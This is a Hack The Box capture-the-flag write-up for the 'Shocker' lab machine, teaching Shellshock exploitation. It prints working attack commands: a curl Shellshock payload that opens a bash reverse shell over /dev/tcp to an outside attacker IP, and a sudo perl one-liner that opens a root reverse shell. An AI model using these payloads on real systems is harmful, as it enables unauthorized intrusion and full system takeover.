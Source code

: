 ```yaml
---
layout: single
title: "HTB - Shocker"
last_modified_at: 2021-04-14 01:00:00 -0700
categories: writeups
tags: [HTB]
image:
  feature:
share: true
date: 2021-02-07 01:00:00 -0700
toc: true
toc_label: "Table of Contents"
classes: wide
---
```

# HTB - Shocker
![Shocker picture](/assets/images/writeups/shocker.png)

**IP**: 10.129.97.115 \
**Completed on**: February 7, 2021 \
**Time to Complete**: 48 minutes \
**OS**: Linux 

**Note!** Added shocker IP to /etc/hosts as `shocker shocker.htb`
{: .notice--success}

## Enumeration

### Nmap
Nmap version and port scan with default scripts enabled found only 2 ports open (`-sV -sC`):
* 80 (Apache 2.4.18)
* 2222 (OpenSSH 7.2p2)

### Enumerating Apache Server
Routing to `http://shocker.htb` I encountered a bug, like, an actual picture of a bug:

![Shocker root http server picture](/assets/images/writeups/shocker-http.png)

### Forced Directory

The default page is a static HTML page with a picture. Trying to route to index.html vs index.php we can confirm the site is using html extension. Since we have nothing else to go by, I ran a gobuster to force browse directories:

**Note!** The image does not show but /cgi-bin/ returned a 404 response.
{: .notice--success}

```
sudo gobuster dir -x html -u http://shocker.htb/ -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![Gobuster with general wordlist using html extension picture](/assets/images/writeups/shocker-gobuster1.png)

I was not able to find anything interesting, but knowing the machine is called “Shocker” I went ahead and ran a dirbuster with CGIs wordlist even though /cgi-bin/ was returning a 404 and discovered a bash file:

```
sudo gobuster dir -u http://shocker.htb/ -w ~/SecLists/Discovery/Web-Content/CGIs.txt
```

![Gobuster with cgi-bin wordlist picture](/assets/images/writeups/shocker-gobuster2.png)

Routing to the site (`http://shocker.htb/cgi-bin/user.sh`) it asks for user.sh to download, using curl I was able to see the script's content, it was running a uptime script and outputting the content when reached:

![Picture of curl to the user shell file](/assets/images/writeups/shocker-user-sh.png)

## Initial Foothold

With the found shell script, I ran a POC Shellshock payload using curl that should list the home directory (`ls`):

```
curl -A "() { :;};echo;/bin/ls -la /home" http://shocker.htb/cgi-bin/user.sh
```

![Picture of curl to the user shell file outputting ls](/assets/images/writeups/shocker-shock-ls.png)

The POC confirmed that shellshock is possible against this script. I then utilize this vulnerability to create a reverse shell with `/bin/bash`:

```
# Don’t forget to open a netcat listener using: sudo nc -nlvp 7000
curl -A "() { :;};echo;/bin/bash -i > /dev/tcp/10.10.14.69/7000 0<&1 2>&1" http://shocker.htb/cgi-bin/user.sh
```
![Picture of curl to the user shell creating a reverse shell](/assets/images/writeups/shocker-shock-reverse.png)

This granted me a user shell as `shelly`. Now lets move into enumerate state again to privilege escalate.

## Privilege Escalation

I used `sudo -l` to list shelly's sudo privileges, we see she is able to run perl as root without a password:

![Picture of sudo -l command through shelly user](/assets/images/writeups/shocker-sudo.png)

Perfect! Using this I created a privilege reverse shell using perl to get root:

```
# Don’t forget to open a netcat listener using: sudo nc -nlvp 7001
sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.69";$p=7001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![Picture of perl to privilege escalate](/assets/images/writeups/shocker-perl.png)

That’s it! Although this box was easier, it goes to show how severe ShellShock vulnerability was during 2014-2018. 

According to Security Intelligence's August 2020 [article](https://securityintelligence.com/articles/shellshock-vulnerability-in-depth/) it's still relevant in 2020 considering there is a large number of vulnerable servers. The article points to Politico's January 2020 [news article](https://www.politico.com/news/2020/01/16/georgia-election-systems-could-have-been-hacked-before-2016-vote-100334) which reported that Georgia election systems was still vulnerable to ShellShock.